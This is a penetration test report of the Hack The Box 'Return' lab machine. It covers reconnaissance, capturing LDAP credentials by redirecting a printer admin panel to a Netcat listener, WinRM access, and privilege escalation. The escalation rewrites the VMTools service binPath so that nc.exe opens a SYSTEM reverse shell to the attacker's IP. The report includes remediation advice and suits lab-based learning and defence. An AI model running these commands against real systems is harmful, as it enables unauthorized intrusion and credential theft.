








# Return Penetration Test Report

## Executive Summary

A black-box penetration test was conducted against the Return Windows host hosted on Hack The Box.

The assessment resulted in full compromise of the target. Network reconnaissance identified an IIS-hosted printer administration panel, Active Directory LDAP services, SMB and WinRM. Review of the printer panel exposed LDAP connection details, including the service account username and an editable LDAP destination.

The application was then configured to connect to an attacker-controlled LDAP listener. Because the connection used unencrypted LDAP on TCP 389, the credentials for `svc-printer` were captured in cleartext. These credentials provided remote PowerShell access through WinRM.

Post-exploitation enumeration showed that `svc-printer` was a member of `Server Operators`, `Print Operators` and `Remote Management Users`. The relevant privileged condition for the demonstrated escalation was `Server Operators` membership, combined with a service configuration weakness that allowed the `VMTools` service binary path to be modified. The service was configured to execute Netcat as `LocalSystem`, resulting in a SYSTEM-level reverse shell.

The assessment demonstrated that exposed administrative configuration, cleartext LDAP authentication and excessive Windows service privileges could be chained to achieve complete compromise of the system.

## Assessment Scope

| Item | Details |
|---|---|
| Target | Return |
| Platform | Hack The Box |
| Target IP | 10.129.95.241 |
| HTB hostname | return.htb |
| Web hostname | return.local.htb |
| Active Directory domain | return.local |
| Windows computer name | PRINTER |
| Operating System | Windows Server 2019 / Windows 10 build 17763 |
| Assessment Type | Black-Box Penetration Test |
| Assessment Date | 17 September 2026 |

Testing was performed only against the designated Hack The Box target.

## Methodology

The assessment followed a structured penetration-testing methodology consisting of the following phases:

### Reconnaissance

Network and service enumeration was performed to identify exposed ports, services, software versions and web applications.

Tools and techniques included:

- Nmap
- SMB enumeration
- Manual web application review
- LDAP inspection

### Vulnerability Identification

The printer administration panel was reviewed for exposed configuration data and unsafe network behaviour. Windows account membership and service permissions were examined after initial access.

### Exploitation

The LDAP server address in the web application was changed temporarily to an attacker-controlled listener. The application connected over cleartext LDAP and disclosed the configured service account credentials.

### Post-Exploitation Enumeration

Following WinRM access, the system was enumerated for:

- Local files and user proof material
- Group memberships
- Service configurations
- Privilege-escalation opportunities

### Privilege Escalation

The `VMTools` service configuration was modified so that it executed an attacker-controlled Netcat payload as `LocalSystem`. A reverse shell confirmed SYSTEM-level access.

## Risk Rating

| Severity | Description |
|---|---|
| Critical | Vulnerabilities that allow complete system compromise or immediate administrative access. |
| High | Vulnerabilities that expose sensitive credentials or provide significant unauthorized access. |
| Medium | Weaknesses that provide useful information or limited access but generally require additional conditions for major compromise. |
| Low | Minor security weaknesses with limited direct impact. |
| Informational | Observations that do not represent an immediate security vulnerability but may assist defensive improvement. |

## Findings Overview

| Finding ID | Finding | Severity |
|---|---|---|
| RT-01 | Exposed and Modifiable LDAP Configuration | High |
| RT-02 | Cleartext LDAP Authentication Enables Credential Capture | High |
| RT-03 | Excessive Privileges Allow Modification of a SYSTEM Service | Critical |
| RT-04 | Anonymous SMB Access Discloses Host Information | Low |

## Compromise Walkthrough

### 1. Initial Reconnaissance

A TCP port scan was performed against the target:

```bash
nmap -sS -sC -sV -O -Pn -p1-10000 10.129.95.241
```

The scan identified the following relevant services:

```text
53/tcp    open  domain       Simple DNS Plus
80/tcp    open  http         Microsoft IIS 10.0
88/tcp    open  kerberos-sec Microsoft Windows Kerberos
389/tcp   open  ldap         Microsoft Active Directory LDAP
445/tcp   open  microsoft-ds SMB
5985/tcp  open  http         Microsoft HTTPAPI 2.0 / WinRM
3268/tcp  open  ldap         Active Directory Global Catalog
```

The host identified itself as `PRINTER` in the `return.local` domain.



### 2. Printer Administration Panel

The HTTP service hosted an application titled `HTB Printer Admin Panel` at:

```text
http://return.local.htb/
```



### 3. LDAP Configuration Disclosure

The Settings page exposed the LDAP connection parameters used by the application:

```text
Server Address: printer.return.local
Server Port:   389
Username:      svc-printer
Password:      [redacted]
```

The application allowed the Server Address field to be changed and submitted through an Update action.



### 4. SMB and Host Enumeration

SMB enumeration identified the target as a Windows Server 2019 host in the `return.local` domain. Anonymous SMB access was accepted, although no useful share listing was obtained.

```bash
nxc smb 10.129.95.241
```



### 5. LDAP Credential Capture

The LDAP Server Address was temporarily changed to the attacker VPN address, `10.10.14.205`, while retaining port `389`. A Netcat listener was started on Kali:

```bash
sudo nc -lvnp 389
```

After the application update was submitted, the target connected to the listener and transmitted the `svc-printer` credentials over unencrypted LDAP.

The captured password is intentionally excluded from this report.



### 6. WinRM Access as svc-printer

The recovered credentials were used to authenticate to the WinRM service:

```bash
evil-winrm -i 10.129.95.241 -u svc-printer -p '[redacted]'
```

Interactive PowerShell access was obtained as `svc-printer`. The user proof file was accessible from the account's Desktop.



### 7. Privileged Group Membership

The account's group memberships were enumerated using:

```powershell
whoami /groups
```

The following groups were relevant:

```text
BUILTIN\Server Operators
BUILTIN\Print Operators
BUILTIN\Remote Management Users
```



### 8. SYSTEM Privilege Escalation Through VMTools

The `VMTools` service was configured to run as `LocalSystem`. Its binary path could be modified by the compromised account.

The service was reconfigured to execute Netcat and connect back to the attacker:

```powershell
sc.exe config VMTools binPath= "C:\Users\svc-printer\Documents\nc.exe 10.10.14.205 4444 -e cmd.exe"
sc.exe stop VMTools
sc.exe start VMTools
```

The Netcat listener on Kali received a Windows command shell running with SYSTEM-level privileges. Access to the Administrator Desktop and the root proof file confirmed successful privilege escalation.



### Complete Attack Path

```text
Printer Admin Panel
        ↓
LDAP Configuration Disclosure
        ↓
Attacker-Controlled LDAP Destination
        ↓
Cleartext LDAP Credential Capture
        ↓
svc-printer
        ↓
WinRM Access
        ↓
Server Operators Membership
        ↓
Writable VMTools Service Configuration
        ↓
LocalSystem Reverse Shell
        ↓
Full System Compromise
```

## Technical Findings

### RT-01 — Exposed and Modifiable LDAP Configuration

**Severity:** High

**Affected Asset:** `return.local.htb` — printer administration panel and LDAP settings

#### Description

The printer administration panel exposed LDAP connection information and allowed the LDAP destination to be changed through the Settings page.

The page displayed the server address, server port and service account username. The password field was masked and was not treated as a plaintext password disclosure in the web interface.

#### Evidence

The Settings page exposed the following configuration:

```text
Server Address: printer.return.local
Server Port:   389
Username:      svc-printer
Password:      masked
```

The Server Address field was editable, allowing the application to be redirected to an attacker-controlled LDAP endpoint.

Evidence screenshot:

```text
evidence/03-ldap-settings.png
```

#### Impact

An attacker who can access the panel can identify a valid domain service account and redirect the application's LDAP connection to an attacker-controlled endpoint. This weakness enabled the credential-capture attack described in RT-02.

#### Root Cause

Sensitive LDAP connection settings were exposed through a web administration interface, and the LDAP destination was modifiable without adequate access control.

#### Recommendation

Restrict the administration panel to trusted management networks and require strong authentication. Do not allow untrusted users to modify the LDAP destination. Store service credentials securely and rotate the `svc-printer` credential after exposure.

### RT-02 — Cleartext LDAP Authentication Enables Credential Capture

**Severity:** High

**Affected Asset:** Printer administration panel / LDAP connection on TCP 389

#### Description

The application connected to the configured LDAP server over unencrypted LDAP. By replacing the server address with an attacker-controlled host, the application was induced to send the configured service account credentials to the listener.

#### Evidence

The connection was captured using:

```bash
sudo nc -lvnp 389
```

The captured password has intentionally been excluded from this report.

Evidence screenshot:

```text
evidence/05-ldap-credential-capture.png
```

#### Impact

An attacker on the reachable network can intercept LDAP authentication material. In this assessment, the captured credentials provided WinRM access to the target.

#### Root Cause

LDAP authentication was performed over TCP 389 without TLS or another protected transport, allowing credentials to be captured by a listener positioned at the configured destination.

#### Recommendation

Use LDAPS or LDAP with StartTLS and validate the server certificate. Prevent the server address from being changed by untrusted users. Rotate credentials immediately after exposure and use a dedicated low-privilege service account.

### RT-03 — Excessive Privileges Allow Modification of a SYSTEM Service

**Severity:** Critical

**Affected Asset:** `VMTools` Windows service

#### Description

The compromised `svc-printer` account was a member of `Server Operators`. This relevant privileged group membership, together with the service configuration permissions, allowed modification of the `VMTools` service configuration. The service ran as `LocalSystem`, so changing its binary path allowed arbitrary code execution with the highest local privileges. `Print Operators` was also present in the group enumeration, but it was not required for the demonstrated `VMTools` service abuse.

#### Evidence

The service was modified with:

```powershell
sc.exe config VMTools binPath= "C:\Users\svc-printer\Documents\nc.exe 10.10.14.205 4444 -e cmd.exe"
```

The service configuration identified:

```text
SERVICE_START_NAME : LocalSystem
```

Starting the modified service resulted in a privileged reverse shell.

Evidence screenshots:

```text
evidence/07-privileged-group-membership.png
evidence/08-vmtools-system-shell.png
```

#### Impact

An attacker with the `svc-printer` account could execute arbitrary commands as `LocalSystem`, resulting in complete compromise of the Windows host.

#### Root Cause

The service's configuration permissions allowed a non-administrative account to modify a service that executed with `LocalSystem` privileges.

#### Recommendation

Restrict service configuration permissions to Administrators and trusted service-management principals. Review service ACLs with tools such as `sc sdshow` and remove write or change permissions from `svc-printer` and unnecessary groups. Run services with the least-privileged dedicated account and monitor service configuration changes.

### RT-04 — Anonymous SMB Access Discloses Host Information

**Severity:** Low

**Affected Asset:** SMB service on TCP 445

#### Description

The SMB service accepted an anonymous session and disclosed host and domain information during enumeration. No useful share contents were obtained during the assessment.

#### Evidence

```bash
nxc smb 10.129.95.241
```

Evidence screenshot:

```text
evidence/04-smb-host-enumeration.png
```

#### Impact

The disclosed information assists reconnaissance and may help an attacker identify valid targets for further authentication attacks.

#### Root Cause

SMB was configured to permit anonymous session establishment and disclose host and domain information to unauthenticated network users.

#### Recommendation

Disable anonymous SMB enumeration where operationally possible and restrict SMB access to trusted networks. Review share and session permissions regularly.

---

## Remediation Summary

The following remediation actions are recommended in order of priority:

1. Remove the ability to modify the `VMTools` service configuration from non-administrative accounts.
2. Rotate the compromised `svc-printer` password and review all authentication logs for misuse.
3. Restrict the printer administration panel to trusted management networks and require strong authentication.
4. Prevent the application from exposing sensitive LDAP configuration and restrict modification of the LDAP destination.
5. Use LDAPS or LDAP with StartTLS and validate the LDAP server certificate.
6. Prevent untrusted users from changing the LDAP server address used by the application.
7. Apply least-privilege permissions to service accounts and remove unnecessary `Server Operators` membership.
8. Review service ACLs regularly and monitor changes to service binary paths and startup configuration.
9. Disable anonymous SMB enumeration where operationally possible and restrict SMB access to trusted networks.
10. Review the host for additional accounts, services or credentials that may have been exposed through the compromised account.

---

## Limitations

This assessment was performed against a single designated Hack The Box host in a controlled lab environment.

The engagement was conducted as a black-box assessment, with no credentials or internal system information provided before testing.

Testing focused on identifying a viable attack path from unauthenticated network access to full system compromise.

The assessment did not include:

- Source-code review of the complete printer administration application
- Denial-of-service testing
- Persistence mechanisms
- Destructive testing
- Malware deployment
- Testing against systems outside the designated target

The findings therefore represent vulnerabilities and weaknesses identified during the assessment window and should not be interpreted as an exhaustive review of every possible security issue on the host.

## Conclusion

The Return host was fully compromised through a chain beginning with an exposed printer administration panel and ending with arbitrary command execution as `LocalSystem`.

The most important remediation actions are to restrict access to and modification of the LDAP configuration, enforce encrypted LDAP connections, rotate the compromised service account password and correct the `VMTools` service permissions. These controls would break the demonstrated attack path at multiple points.

The successful attack chain was:

```text
Printer Admin Panel
        ↓
LDAP Configuration Disclosure
        ↓
Attacker-Controlled LDAP Destination
        ↓
Cleartext LDAP Credential Capture
        ↓
svc-printer
        ↓
WinRM Access
        ↓
Server Operators Membership
        ↓
Writable VMTools Service Configuration
        ↓
LocalSystem Reverse Shell
        ↓
Full System Compromise
```

The assessment demonstrates how exposed administrative configuration, insecure LDAP transport and excessive Windows service permissions can combine to turn an unauthenticated web application finding into complete compromise of the target.
